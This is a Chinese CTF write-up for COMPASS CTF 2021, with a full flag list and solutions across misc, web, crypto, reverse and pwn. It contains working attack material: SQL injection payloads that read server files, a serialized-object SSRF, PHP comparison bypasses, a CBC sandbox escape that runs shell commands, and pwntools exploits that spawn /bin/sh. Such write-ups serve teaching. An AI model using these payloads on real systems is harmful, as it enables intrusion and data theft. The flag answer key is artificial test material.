









# COMPASS CTF 2021 招新赛
# 题目内容
分类 | 名称 | 难度 | 描述 | 文件 
 -- | -- | -- | -- | -- 
MISC | SanityCheck | 签到 | 欢迎来到COMPASS CTF! 光碟、喵咪和ls可以帮你拿到flag。 | sign.html | flag{we1c0m3_tO_C0MP4SS_CTF_2021!GLHF}  
MISC | ezPWD | 简单 | 你的一位来自陕西西安临潼区的90后学姐发给你一份神秘压缩包，你能打开吗 | flag.zip | flag{Brut3_f0rc3_1s_just_345y}
Web | Hacked | 签到 | 大黑客黑掉了COMPASS的网站并留下了flag，但是需要正确输入口令才能看到。 | Hacked.html | flag{Ev3ry_0ne_1ove5_baNaNa_exCept_fu*k1n9_js}  
Web | trickyPHP | 一般 | 攻克难关，入门web，赢取flag | trickyPHP.php | flag{y0u_b34t_pHp_and_WOn_uR_reward!}
web | Life Restart | 一般 | 这垃圾人生一秒也不想呆了，remake！(500岁时渡劫成功赢取flag) | http://81.68.223.245:8080/view/ | flag{My_fate_1s_up_to_M3_in_Cyber_W0rld}
Web | BBS | 中等 | COMPASS开通了bbs demo，现在开放注册~管理员在flag.php中写入了宝贵的flag，以此证明BBS的安全性 | COMPASS_BBS | flag{U_mast3red_inj3ctiOn_Unser1alize_and_SSrF!}
Crypto | at_bash | 签到 | COMPASS截获了一段含有flag的文本，但是文本中看起来并没有flag字样 | at_bash.txt | flag{wOW_y0U_Real1y_ma5ter3d_enc0d1ng!}
Crypto | variable | 简单 | 据说初中生更加擅长crypto的破解，为了夺回本科生的尊严，你向初中小A发起了挑战 | enc.py enc.txt | flag{Now_u_H4v3_the_abil1Ty_to_Crypt0!} 
Crypto | CBC | 较难 | 新概念的Python沙盒，让Python再次伟大！ | CBC.py | flag{w0W_s3Ems_u_really_g00D_4t_crypt0!} 
Re | bogo | 签到 | 猴子在无限的时间内可以写出莎士比亚，这也是一道能自己写出flag的逆向题！ | bogo.elf | flag{we1c0m3_tO_rEv3re_w0r1d!}
Re | Extremely slow | 一般 | COMPASS实验室截获了一个可以快速分解混沌为flag的强大原型机，但是它十分不稳定，只能运行很短的时间... | Extremely_slow.exe | flag{p47ch_PrO6r4m_1s_n0t_A_h4rd_7hin9}
Re | Random | 较难 | 上帝不会掷骰子，从来没有真正的随机 | Random.exe | flag{Exc3l13nt_y0u_gOt_7h3_r4nd0m_k3y!284}
Re | java_re | 压轴 | Jar是个糟糕的Zip文件，但它能有什么坏心眼呢？(hint 代码很乱？其实逻辑并不复杂。IDEA自带的逆向很强大) | EzJar.jar | flag{Ctf3r_me_1s_A_very_g0Od_9Uy}
PWN | dove1 | 签到 | 每次校队训练总有鸽子出现，COMPASS发出悬赏：带回鸽子一次就可以获得flag！你决定去劝说鸽子走上正轨道（hint1 劝说只有第10种办法是有效的）（hint2 反编译伪代码不正常可以看看反汇编界面，注意变量的类型）（hint3 rand的种子精度不够不难预测） | dove | flag{5ome_0ne_1s_dove_I_dont_say_whO_1s} 
PWN | dove2 | 简单 | 多次成功劝说鸽子后它仍然一意孤行，你决定来点硬的 | dove | flag{U_rea11y_g0Od_At_bringing_d0ve_back} 
PWN | wish | 较难 | 一口许愿井，你可以对它倾诉任何事情，但是它似乎很少对愿望作出回应 | wish | flag{PWN_1s_s0_tricky_go0Od_job}
PWN | Double Frank | 防AK | 欢迎来到Frank餐馆，请问你今天要来点什么样的Frank呢？ | Frank | flag{YOU_beat_frank_n0w_frankss_1s_a11_yOurs!}  
# 题解
新手友好，题目有趣 
比赛内容包含网络攻击，加密解密，程序逆向破解，二进制漏洞利用等。
## MISC
### SanityCheck
签到，首先
> cd home

然后
> cat flag.txt

### ezPWD
陕西西安临潼区 分别对应61 01 15  
年份1990-1999  月1-12 日1-31 编号0-999 校验码固定   
根据条件生成字典复杂度很低，爆破即可得到压缩包密码   
610115199309102764  
以下是各种密码恢复软件的截图：  
- john kali自带 免费 高效 强大 仅用6秒

- archpr 适用于windows，支持各种密码恢复方式（明文，暴力，字典，掩码...）用时9分钟 需要注册  

- passware for forensic 极其强大的内存密码分析攻击，也支持字典，用时4分钟，需要注册

> flag{Brut3_f0rc3_1s_just_345y}
## Web
### Hacked
题目问  ****js中'b'+'a'+ +'a'+'a'** 的值是？  
那F12放控制台运行一下就好了，是 **'baNaNa'** 一想很奇怪，但是在JS里，这也正常（x  
然后就得到了满屏飞的flag  题目名字也是来源于此  

什么？肉眼看flag太难了？解决方法包括但不限于以下：  
- 买个好用的眼镜或者找准时机OCR一下flag  
- 把被加密的JS放到[在线JS压缩网站](https://tool.css-js.com/)解密得到flag变量名 查看t变量的值
- 通过window变量查看所有变量的值 其中就有flag

相信大家可以轻松完成签到
> flag{Ev3ry_0ne_1ove5_baNaNa_exCept_fu*k1n9_js}

### trickyPHP
给了源码，来一点点过关。第一关是需要say中包含JOIN_COMPASS_CTF#，但是首先会正则卡掉COMPASS。   
```php
$say = preg_replace('/^(.*)COMPASS(.*)$/', '${1}<!--nope-->${2}', $_GET['say']);
    if (preg_match('/JOIN_COMPASS_CTF#/', $say)) {
        echo "Welcome to COMPASS CTF, continue hacking!<br>";
    } else {
        echo 'Bad hacker!';
    }
```
换行绕过正则，用url编码避免#被解析为html标签：  
>  ?say=%0aJOIN_COMPASS_CTF%23

第二关需要post两个内容不同但是sha1一样的内容
```php
if ($_POST['user'] == $_POST['pwd']) {
    echo 'You cant do that!';
} else if (sha1($_POST['user']) === sha1($_POST['pwd'])) {
    echo 'Great, you almost get there!<br>';
} else {
    die("Not same, sorry.");
}
```
很容易想到碰撞，但是在php中有更简单方法：传入非字符串内容，sha1会返回失败，造成false===false，比如传入内容不同的两个数组。  
> user[]=1&pwd[]=2

第三关解码json格式的flag，然后和flag弱比较  
```php
$leve1_3 = json_decode($_POST['flag']);
if ($leve1_3->result == $flag) {
    echo "Congratulations, you won your flag:&nbsp &nbsp " . $flag;
} else {
    echo "So close!!!";
}
```
弱比较时，我们可控的变量在左边，可以直接令其为0使得条件恒成立。  
> flag={"result":0}

组合起来就是
> GET("http://xx.xx/?say=%0aJOIN_COMPASS_CTF%23")   
> user[]=1&pwd[]=2&flag={"result":0}

### Life Restart
看一下文件结构  
  
从文件名不难推测  
- 开局天赋抽卡的相关逻辑位于talent.js
    + 爆改欧皇概率 显然3是最好的 直接return3就能欧皇附体：
    ```javascript
    const randomGrade = () => {
            let randomNumber = Math.floor(Math.random() * 1000); //删掉
            if((randomNumber -= rate[3]) < 0) return 3; //删掉
            if((randomNumber -= rate[2]) < 0) return 2; //删掉
            if((randomNumber -= rate[1]) < 0) return 1; //删掉
            return 0; //return 3
        }
    ```
- 属性分配的相关逻辑位于property.js
    + 爆改开局属性 加一堆初始值：
    ```javascript
    restart(data) {
        this.#data = {
            [this.TYPES.AGE]: -1,
    
            [this.TYPES.CHR]: 0, //加！
            [this.TYPES.INT]: 0, //加！
            [this.TYPES.STR]: 0, //加！
            [this.TYPES.MNY]: 0, //加！
            [this.TYPES.SPR]: 0, //加！
    ```
- 二倍速延迟的逻辑在app.js
    + 延迟改为0：
    ```javascript
        trajectoryPage
            .find('#auto')
            .click(()=>auto(1000));
        trajectoryPage
            .find('#auto2x')
            .click(()=>auto(500)); // 改为0
    ```

现在开局就有无限属性+全橙卡 开始你的逆天之路吧！  
不一定能渡劫成功 但是因为改掉了延迟，基本一轮不到5秒 开几轮就能拿到flag。
  
> flag{My_fate_1s_up_to_M3_in_Cyber_W0rld}

### BBS
注册一个账号 登录后发现网页会内嵌blog中的网址，同时发现请求的参数为  
>view.php?no=2  

加个分号试试 view.php?no=2'
> [*] query error! (You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1  

看到这报错信息，DNA动了  
orderby爆字段数量，5时报错说明字段数为4  
>?no=1 order by 4# 

union select被屏蔽 用/**/就可以绕过，发现字段2可以直接回显  
>?no=9 union/**/select 1,2,3,4#  

这时候有SQL注入大佬可能会先看看权限
>?no=9 union/**/select 1,user(),3,4#  

一查吓一跳，root@localhost，那还注什么，直接随便打拿flag了  
>?no=9 union/**/select 1,load_file("/var/www/html/flag.php"),3,4#  

执行后在用户名的地方查看源码就能得到flag   

那如果不是SQL注入大佬，没有一步拿到flag，我们接着往下做：  
查信息表找表名，列名 内容  
>?no=9 union/**/select 1,(select table_name from information_schema.tables limit 1 offset 0),3,4#  

>?no=9 union/**/select 1,(select column_name from information_schema.columns where table_name='users' limit 1 offset 3),3,4#  

>?no=9 union/**/select 1,(select data from users where no=2),3,4#
可以知道表的结构为：
- no 用户id
- name 用户名
- password 密码的hash
- data O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:1;s:4:"blog";s:20:"http://www.baidu.com";}

其中data看起来是序列化的php内容，试着放到结果中  
> ?no=9 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:1;s:4:"blog";s:20:"http://www.baidu.com";}'#

会发现反序列化了我们的内容，这时候有经验的web大佬又已经想到了伪协议SSRF了，只需要更改一下序列化的内容就能读出flag  
没有想到的同学也可以通过查看robots.txt得到源码 查看逻辑得知反序列化过程  
> ?no=9 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'# 

执行后在bolg预览的地方查看源码就能得到flag   
>flag{U_mast3red_inj3ctiOn_Unser1alize_and_SSrF!}
## Crypto
### at_bash
有很多种方法做，分享几个自动化的解法，以下仓库都在github上开源，其中CyberChief有在线版本：  
- Ciphey 可以全自动解决问题

- BaseCrack 可以解决大量的base编码

- CyberChief 可以自动解决很多步骤


本题名称提示最后一步是atbash解码，如果没有想到直接百度搜索"ctf uozt{}"或者搜索"crypto uozt{}"都能得到解法  
> flag{wOW_y0U_Real1y_ma5ter3d_enc0d1ng!}
### variable
根据已知的flag{}格式写出方程求解abcd：  
```python
from z3 import *

solver = Solver()

a = Real('a')
b = Real('b')
c = Real('c')
d = Real('d')
solver.add(a * pow(ord('f'), 3) + b * pow(ord('f'), 2) + c * ord('f') + d == 5699462831574115)
solver.add(a * pow(ord('l'), 3) + b * pow(ord('l'), 2) + c * ord('l') + d == 6762178137517177)
solver.add(a * pow(ord('a'), 3) + b * pow(ord('a'), 2) + c * ord('a') + d == 4904006952609865)
solver.add(a * pow(ord('g'), 3) + b * pow(ord('g'), 2) + c * ord('g') + d == 5868227804276587)
solver.add(a * pow(ord('{'), 3) + b * pow(ord('{'), 2) + c * ord('{') + d == 9978816733414447)
solver.add(a * pow(ord('}'), 3) + b * pow(ord('}'), 2) + c * ord('}') + d == 10472292506842245)
if solver.check() == sat:
    for i in str(solver.model())[1:-1].split(","):
        print(i.strip())
```
解出abcd的值后带入求解：  
```python
b = 4849411009
a = 5322682364
d = 4215800245
c = 5218014711
enc = [5699462831574115, 6762178137517177, 4904006952609865, 5868227804276587, 9978816733414447, 2555804598727387,
       7339798412634739, 9038863758685179, 4607800653388515, 8591875579876765, 4607800653388515, 2012199806528365,
       761800081770865, 8813480590313107, 718942790851879, 4607800653388515, 8374016791281969, 6040291893502029,
       5533965039300429, 4607800653388515, 4904006952609865, 5056755384110247, 6215687035344625, 6762178137517177,
       638111591795929, 3189435100987729, 9501092313613249, 4607800653388515, 8374016791281969, 7339798412634739,
       4607800653388515, 1622988744649015, 7949410135240279, 9501092313613249, 7539405133434565, 8374016791281969,
       600073811470597, 196738654989577, 10472292506842245]

for i in enc:
    for j in range(32, 127):
        if a * j ** 3 + b * j ** 2 + c * j + d == i:
            print(chr(j), end="")
```
即得flag
>flag{Now_u_H4v3_the_abil1Ty_to_Crypt0!}

### CBC

可以通过给出的密文反解IV，示例代码+运行hello world

```python
from pwn import *
from Crypto.Util.Padding import pad

local = True

host, port = "103.102.44.218", 10007

if local:
    p = process('python CBC.py', shell=True)
else:
    p = remote(host,port)

p.recvuntil(b'sample encryption\n')
sample = p.recvline()

iv = unhex(sample[:32])
ct = unhex(sample[32:])
pt = b'trapped_forever'

log.info(f'got iv: {enhex(iv)}')
log.info(f'got ct: {enhex(ct)}')
log.info(f'got pt: {enhex(pt)}')

pt = pad(pt, 16)
pl = pad(b'print("hello")', 16)

log.info(f'sending: {pl}')
res = p.recvuntil(b'>>')
target = xor(pt, pl)
new_iv = xor(target, iv)

final_payload = enhex(new_iv) + enhex(ct)  
p.sendline(final_payload.encode())
p.interactive()
```

得到了预期结果

```python
$ python helloworld.py 
[+] Starting local process '/bin/sh': pid 379634
[*] got iv: 2d9563e81f33b3501e1e362e0f6fb173
[*] got ct: 2a835fcae4c11657a7b6ddae5a6e8ed1
[*] got pt: 747261707065645f666f7265766572
[*] sending: b'print("hello")\x02\x02'
[*] Switching to interactive mode
hello
>>
```

将hello world替换成我们想要的命令，源程序已经导入了OS库，不需要再次import，于是使用`os.system('ls -la')`

```python
#!/usr/bin/python3

from pwn import *
from Crypto.Util.Padding import pad

local = True

host, port = "103.102.44.218", 10007

if local:
    p = process('python CBC.py', shell=True)
else:
    p = remote(host,port)

p.recvuntil(b'sample encryption\n')
sample = p.recvline()

iv = unhex(sample[:32])
ct = unhex(sample[32:])
pt = b'trapped_forever'

log.info(f'got iv: {enhex(iv)}')
log.info(f'got ct: {enhex(ct)}')
log.info(f'got pt: {enhex(pt)}')

pt = pad(pt, 16)

def encpayload(s):
    hexed = enhex(s)
    encoded = '|\\x'.join([hexed[x:x+2] for x in range(0, len(hexed), 2)]).split('|')
    parts = [f"a='\\x{encoded[0]}'"]
    for i, p in enumerate(encoded[1:]):
        parts.append(f"a+='{p}'")
    
    return parts

# any payload will do, we can keep appending anything to variable
payload_list = encpayload(b'os.system("ls -la")')
payload_list.append('print(a)')
payload_list.append('exec(a)') 

for pl in payload_list:
    res = p.recvuntil(b'>>')

    pl = pad(pl.strip().encode(), 16)
    
    target = xor(pt, pl)
    new_iv = xor(target, iv)

    final_payload = enhex(new_iv) + enhex(ct)  
    p.sendline(final_payload.encode())

p.interactive()
```

给出了想要的flag

```
$ ./solve.py 
[+] Opening connection to jail-crypto.challenge.cryptonite.team on port 1337: Done
[*] got iv: 7f3468ee6bec6395f9a6a96eaf078612
[*] got ct: c67bd34273a2f25477432de5590fcad2
[*] got pt: 747261707065645f666f7265766572
os.system("ls -la")
total 16
drwxr-xr-x 2 nobody nogroup 4096 Dec 10 13:44 .
drwxr-xr-x 3 nobody nogroup 4096 Dec 10 13:44 ..
-rw-r--r-- 1 nobody nogroup   41 Dec  6 13:08 flag.txt
-rw-r--r-- 1 nobody nogroup    0 Dec  6 13:08 flag{w0W_s3Ems_u_really_g00D_4t_crypt0!}
-rwxr-xr-x 1 nobody nogroup 1387 Dec  6 13:08 CBC.py
>>
```

## Re

### bogo
程序首先对char flag数组每个元素+32得到flag，然后开始随机生成可打印的flag字符串进行比较。  
如果生成的随机内容正好是正确的flag就显示正确结束程序，如果不正确就继续随机生成。  
我们可以：
- 1 让猴子慢慢生成，反正找到正确flag的概率不是0 
- 2 直接把flag数组的内容+32拿到flag

相信大家可以很快做出这道题。  
> flag{we1c0m3_tO_rEv3re_w0r1d!}

### Extremely slow
IDA打开，发现是不熟悉的界面 有经验的同学会直接看函数栏中最上边几个函数就是入口函数   
但是我不喜欢exe，也不知道怎么找入口函数，于是按下shift+F12，紧接着ctrl+F，输入"flag"，按下回车，一整套操作一气呵成，然后也可以找到：  
  
双击结果，再双击DATA XREF: sub_1400010C0跟进引用就找到了主函数   
按下F5，主函数逻辑十分清楚。重命名几个变量就能得到：
```cpp
__int64 sub_1400010C0(){
  int l; // [rsp+20h] [rbp-38h]
  int j; // [rsp+24h] [rbp-34h]
  int k; // [rsp+28h] [rbp-30h]
  int i; // [rsp+2Ch] [rbp-2Ch]
  HANDLE hConsoleOutput; // [rsp+38h] [rbp-20h]
  CONSOLE_CURSOR_INFO ConsoleCursorInfo; // [rsp+40h] [rbp-18h] BYREF
  ULONGLONG v7; // [rsp+48h] [rbp-10h]

  printf("You will find flag here!\n");
  hConsoleOutput = GetStdHandle(0xFFFFFFF5);
  SetConsoleTextAttribute(hConsoleOutput, 0xAu);
  ConsoleCursorInfo.dwSize = 1;
  ConsoleCursorInfo.bVisible = 0;
  SetConsoleCursorInfo(hConsoleOutput, &ConsoleCursorInfo);
  v7 = GetTickCount64();
  menset(flag_arr, 61i64, 1600i64);//61是"="的ASCII
  for ( i = 0; i < 97; ++i ) //循环97次
  {
    SetConsoleCursorPosition(hConsoleOutput, 0);
    for ( j = 0; j < 20; ++j )//总共20行
    {
      for ( k = 0; k < 80; ++k )//每行80个字符
        putchar(flag_arr[80 * j + k]); //打印每个字符
      printf("\n");//打印换行符
    }
    for ( l = 0; l < 1600; ++l ) //data_arr是97个char[1600]，正好每个字符都亦或一次
      flag_arr[l] ^= *(_BYTE *)(data_arr[i] + l);
    Sleep(100);//每轮都暂停0.1秒
    if ( GetTickCount64() - v7 > 4000 )
        return 0i64;//如果程序运行时间超过4秒退出程序
  }
  system("pause > nul");
  return 0i64;
}
```
所以程序就是一个初始数组和97个等长的数组每个亦或一次，得到最终的输出  
但是每次亦或完都会暂停0.1秒，40次之后就会退出。  
那么可以考虑的解法有：
- 导出97个数组，然后模拟亦或过程得到最终输出
- 把sleep禁用
- 把超时return禁用

解法1 禁用sleep：  
找到Sleep函数的地方，Edit -> Patch Program -> Assemble 
  
将Sleep的毫秒参数从
> mov     ecx, 64h

修改为
> mov     ecx, 0h

点击确定修改完本行后IDA还会自动Patch下一行汇编，这时候取消即可
之后应用修改，Edit -> Patch Program -> Apply Patches to input file
然后运行程序即可看到漂亮的flag  
  


解法2 阻止超时：
类似方法1，修改限制时间的cmp     rax, 0FA0h为更大的数字  
或者修改返回分支的跳转条件jbe     short loc_14000124D    

解法3 模拟亦或过程： 
97个数组在程序二进制中是连续的，可以计算偏移量之后入读二进制然后手动分割数据  

推荐解法1，一步到位。
>flag{p47ch_PrO6r4m_1s_n0t_A_h4rd_7hin9}

### Random
初始随机种子没有随机化，因此第一个随机数也是定值，用其做种子之后整个序列都是固定的，但是程序逻辑是有坑的不好复现代码，所以动态调试获取整个XOR序列的最终值：  
我选择使用IDA进行动态调试，在这里下断点  
  

执行后在弹窗蓝字中选择让IDA自动把所有异常传给程序   
触发断点后就可以双击跟进byte_983370得到运算结果
  

最后就是用动态获取的byte_983370值亦或输入再亦或最后的比较数组byte_E62138  
这里我的输入是44个数字1，因此脚本如下：  
```python
# 写死的比较数组
byte_E62138 = [0x3e, 0xcd, 0xaa, 0x8e, 0x96, 0x69, 0x94, 0x98, 0xda, 0xa8, 0x27, 0xa4, 0xf7, 0xc5, 0xfb, 0x90, 0xf3,
               0xb3, 0xdf, 0xd8, 0x71, 0x30, 0x47, 0x19, 0x1b, 0x65, 0xd, 0xca, 0x6f, 0x8, 0x89, 0x8c, 0xe7, 0x87, 0x5d,
               0xbc, 0x9f, 0xf2, 0x83, 0x69, 0x8d, 0x24, 0xD3, 0x5A]
# 调试时获取的byte_983370
key = [0x69, 0x90, 0xFA, 0xD8, 0xDC, 0x1D, 0xDD, 0xCA, 0xD8, 0xF5, 0x27, 0xA6, 0xA8, 0x80, 0x95, 0xD8, 0xF2, 0xF7, 0xB1,
       0x8E, 0x0F, 0x75, 0x29, 0x1F, 0x42, 0x67, 0x63, 0x89, 0x6A, 0x57, 0xDC, 0x8D, 0xBB, 0xE9, 0x07, 0xBE, 0xD7, 0xE2,
       0x80, 0x60, 0x88, 0x68, 0xD3, 0x5A]

for i in range(0, 42):
    print(chr(key[i] ^ byte_E62138[i] ^ ord('1')), end='')
```
运行获得flag
>flag{Exc3l13nt_y0u_gOt_7h3_r4nd0m_k3y!284}

### java_re
Jd-GUI打开，主要逻辑是将输入的字符串做DES加密，密钥是easy_key，如果结果等于密文证明输入的flag正确  
```java
import java.util.Base64;
import java.util.Scanner;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.swing.JOptionPane;

public class EzJar {
    //hint: flag not here but the logic are same
    public static void main(String[] args) throws Exception {
        JOptionPane.showMessageDialog(null, "Give me your flag:", "alert", JOptionPane.QUESTION_MESSAGE);
        System.out.print("Give me your flag:");
        Scanner sc = new Scanner(System.in);
        String s = sc.next();
        Cipher cipher = Cipher.getInstance("DES");
        cipher.init(1, new SecretKeySpec("easy_key".getBytes(), "DES"));
        String result = new String(Base64.getEncoder().encode(cipher.doFinal(s.getBytes())));
        System.out.println(result);
        if ("UUwnbEk0rzLol6T6uWsAqIlSzBsuPYTtuaxkQBwZA1zwu6ba5rnSM82HBI8AMbQhX5KdguHFpXtBInmrvakU6uDQ4whqs+FfRrrQqxupe/lxNirtl2deAg==".equals(result)) {
            JOptionPane.showMessageDialog(null, "Accept!");
            System.out.print("Accept!");
        } else {
            JOptionPane.showMessageDialog(null, "Wrong answer!");
            System.out.print("Wrong answer!");
        }
    }
}
```
但是在[DES线解密](http://tool.chacuo.net/cryptdes/)（或者用java重运行一下解密）之后得到   
> notflag{hint:jar_will_consider_a.class/_as_file_but_zip_will_consider_it_as_folder}

提示说jar对于类名.class会忽略尾部的/，但是zip会认为这是一个目录而不是文件。  
仔细观察，我们看到的并不是EzJar.class而是一个静态的EzJar.java   
查看jar的16进制，果然有一个奇怪的文件  
  
jar在运行时会查找MANIFEST中的类名.class，同时忽略尾部的/。也就是说”EzJar.class/”会被识别为文件而不是文件夹，**因此jar加载的class实际是”EzJar.class/”**。（事实上，java甚至会忽略CRC校验，而ZIP会拒绝解压）  
为了取出/结尾的文件，可以写java脚本读取jar重写entry，更简单的方法是将hex里的文件名”EzJar.class/”替换为”EzJar1.class”就可以用zip解压出真实的class文件了。  
将解压出的”EzJar1.class”交给IDEA反汇编，看到”EzJar1.class”的主要逻辑和假文件EzJar.java是完全一样的，只有字符串被加密了。   

混淆的代码，实际格式和上边一模一样  
```java
public static void main(String[] var0) throws Exception {
        JOptionPane.showMessageDialog((Component)null, I[l[0]], I[l[1]], l[2]);
        System.out.print(I[l[3]]);
        byte llllllllllllIIl = new Scanner(System.in);
        char llllllllllllIII = llllllllllllIIl.next();
        String lllllllllllIlll = Cipher.getInstance(I[l[2]]);
        lllllllllllIlll.init(l[1], new SecretKeySpec(I[l[4]].getBytes(), I[l[5]]));
        int lllllllllllIllI = new String(Base64.getEncoder().encode(lllllllllllIlll.doFinal(llllllllllllIII.getBytes())));
        if (lIl(I[l[6]].equals(lllllllllllIllI))) {
            JOptionPane.showMessageDialog((Component)null, I[l[7]]);
            System.out.print(I[l[8]]);
            "".length();
            if (-" ".length() > 0) {
                return;
            }
        } else {
            JOptionPane.showMessageDialog((Component)null, I[l[9]]);
            System.out.print(I[l[10]]);
        }

    }
```
也就是只需要解密出flag和key的字符就能得到flag，找到他们所在的位置  
```java
static {
        lII();
        ll();
        AC = I[l[11]];
        flag = I[l[12]];
        enc = I[l[13]];
        banner = I[l[14]];
        WA = I[l[15]];
        key = I[l[16]];
    }
```
I 数组是加解密数组，而l数组是下标替换数组，获取l和I的值只需要把代码复制直接运行就能得到真实的索引，然后把对应的密文和密码找出来  
其中的加密加密并不复杂，只有三种：
- ①有看似冗长其实就是循环亦或的加解密，解密  
  s=b64decode(b"第一个参数密文")
  key=b"第二个参数密钥"
  for i in range(0,len(s)):
     print(chr(s[i]^key[i%len(key)]),end="")
- 用密码的MD5转换为DES密钥加解密
- 用密码的MD5转换为Bolwfosh密钥加解密  
这两种用java再运行一次就是解密

找到flag和key对应的加密方法，解密得到key为me@Ctf3r，用key DES解密得到flag  
> flag{Ctf3r_me_1s_A_very_g0Od_9Uy}

PS. IDA直接打开jar就可以看到真实的entry  
## PWN
### dove
IDA的逻辑可以看的十分清楚，程序分为前面的三个check和后面的一个溢出 三次ckeck依次为：  
第一个check是输入一个long long，如果小于10就转换为int调用talk  
我们可以输入一个负数使得转换成int时等于10，用c写个脚本从longlong的最小值遍历就能立刻得到一个符合条件的结果 **-9223372036854775798**  
```cpp
long long choice = 0;
puts("\n第一周，鸽子没有出现在训练现场，你准备去叫他");
	printf("本周你的解决方法是(0-9):");
	scanf("%lld", &choice);
	if (choice < 10) {
		win_count += talk(choice);
	}
	else {
		win_count += talk(rand() % 10);
	}
```
第二个check是输入一个int 如果小于10就调用talk   
我们需要跳过这个输入，scanf在接受无效值时会跳过赋值， **正负号+ -** 是可以跳过scanf又不结束程序的无效值。  
或者输入一个过大的整数也能跳过输入，比如 **把第一次的输入复制一次** 也行  
```cpp
scanf("%d", &choice);
	if (choice < 10) {
		win_count += talk(choice);
	}
	else {
		win_count += talk(rand() % 10);
	}
```
第三个check是输入一个int 和一个当前时间（精确到秒）的随机数，如果随机数输入正确就进行talk  
因为是精确到秒的随机种子，所以我们只要进行到这一步时候本机也生成一个随机数发送过去就是一致的  
```cpp
int x = 0;
	srand(time(0));
	choice = 0;
	int y = rand();
	scanf("%d %d", &choice, &x);
	if (y == x) {
		win_count += talk(choice);
	}
	else {
		win_count += talk(rand() % 10);
	}
```
最终会接受一个a字符串溢出，覆盖后边的变量win_flag就能完成PWN  
```cpp
char* a = "";
int win_flag = 0;
if (win_count > 2) {
		gets(&a);
	}
	else {
		puts("\n加油，再试一次吧！");
	}
```
整个题目脚本如下：  
```python
from pwn import *
import ctypes

p=process("./dove")

libc = ctypes.CDLL('/lib/x86_64-linux-gnu/libm.so.6') # 预先加载libc减少延迟

print(p.recv().decode())
p.sendline(b"-9223372036854775798") # longlong < 10, 转int之后正好=10

print(p.recv().decode())
p.sendline(b"-") # 跳过scanf 或者用一个很大的数字也可以 比如上边的-92233...

libc.srand(libc.time())
print(p.recv().decode())
p.sendline(b"10 "+str(libc.rand()).encode()) #同步生成随机数

print(p.recv().decode())
p.sendline(b"a"*50) # 溢出覆盖后边的变量

p.interactive()
```
### wish
首先ckecksec看下保护  
  
平平无奇只开了NX和部分RELRO，IDA看逻辑：  
```cpp
ssize_t vuln(){
  char buf[8]; // [esp+Ch] [ebp-Ch] BYREF

  return read(0, buf, 52);
}
```
是一个溢出，但是很可悲的是这个题目不仅没有后门函数，甚至没有解析 **任何的输出方法** ，没有输出就难以泄露地址，而libc又是随机加载的不知道初始地址，所以我们有以下思路：
- 爆破libc的偏移 return to OneGadGet
- ret2dlresolve
其中方法二是一种比ret2libc更强大的ROP，可以在不泄露libc地址的情况下通过dlresolve用任意函数名覆盖解析已有的函数。而pwntools又提供了强大的Ret2dlresolvePayload类，下面是自动化脚本：
```python
from pwn import *

context.binary = elf = ELF('wish')
r = remote("xx.xx.xx.xx",xxxx)
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])
rop.read(0, dlresolve.data_addr, 200)
rop.ret2dlresolve(dlresolve)
r.send(b'A' * (0xc+4) + rop.chain())
pause(1)
r.send(dlresolve.payload)
r.interactive()
```
运行就能获得shell   
短短12行代码就能完成强大的ret2dl，pwntools确实是强大的工具。  

当然，我们要想了解ret2dlresolve的原理，最好的办法是[不借助轮子实现一次](https://blog.csdn.net/qq_51868336/article/details/114644569)。  
而且上边的自动化脚本发送的第一段栈迁移的payload长度正好是52个字符，很极限，我们手写的脚本不需要平衡栈的情况下只需要48个字符，多了一点空间：  
```python
from pwn import *

elf = ELF('./wish')

offset = 0xc + 4
ppp_ret = 0x080492a1      # ROPgadget --binary wish --only "pop|ret"
leave_ret = 0x08049125    # ROPgadget --binary wish --only "leave|ret"
plt_0 = 0x08049030        # objdump -d -j .plt wish
rel_plt = 0x08048350      # objdump -s -j .rel.plt wish
dynsym = 0x08048248       # readelf -S wish
dynstr = 0x080482b8       # readelf -S wish
ret = 0x0804900e          # ROPgadget --binary wish --only "ret"

pop_ebp_ret = ppp_ret + 2
read_plt = elf.plt['read']
stack_size = 0x800
bss_addr = elf.sym['__bss_start']
base_stage = bss_addr + stack_size
r = remote("xx.xx.xx.xx",xxxx)

# read(0, bss, 100)把payload2写入bss段，并把栈迁移到bss段
payload = b'A' * offset + p32(ret) + p32(read_plt) + p32(ppp_ret) + p32(0) + p32(base_stage) + p32(100) + \
          p32(pop_ebp_ret) + p32(base_stage) + p32(leave_ret)
r.send(payload)

align = 0x10 - ((base_stage + 40 - dynsym) % 16)
fake_sym_addr = base_stage + 40 + align  # 填充地址使其与dynsym的偏移16字节对齐（即两者的差值能被16整除），因为结构体sym的大小都是16字节
r_info = ((((fake_sym_addr - dynsym) // 16) << 8) | 0x7)  # 使其最低位为7，通过检测
fake_write_rel = flat(p32(elf.got['read']), p32(r_info))
fake_write_str_addr = base_stage + 40 + align + 0x10
fake_name = fake_write_str_addr - dynstr
fake_sym = flat(p32(fake_name), p32(0), p32(0), p32(0))

payload2 = flat(b'AAAA'
                , p32(ret)
                , p32(plt_0)
                , base_stage + 32 - rel_plt  # arg
                , p32(ppp_ret)
                , p32(base_stage + 80)
                , p32(base_stage + 80)
                , p32(7)  # len("/bin/sh")
                , fake_write_rel  # base_stage + 32
                , b'A' * align  # 用于对齐的填充
                , fake_sym  # base_stage + 40 + align
                , b'system\x00'  # 伪造出的字符串
                )
payload2 += b'A' * (80 - len(payload2)) + b'/bin/sh\x00'
payload2 += b'A' * (100 - len(payload2))
r.sendline(payload2)
r.interactive()
```
### Frank

## 比赛中放出的hint

PWN-dove 的源码已上传到群里    
Misc-ezPWD 的密码是18位身份证号  
Web-Life Restart 突破100岁是必要条件是橙色天赋"神秘的小盒子" 顺利修仙需要很高的属性 自动播放可以很快很快  
RE-Extremely slow 程序限制是一个时间常数，超时退出  
Web-BBS 注入是突破口  
RE-Random 动态调试  
  
BBS 提示 很简单的SQL注入  
Extremely slow  提示 修改最大时间限制常数  
Random 提示 动态调试获取key  
java_re 提示 第一步解法用了https://itzsomebody.xyz/2021/07/11/javaisez3-writeup.html 的解析特性  
wish 提示 ret2dlresolve  
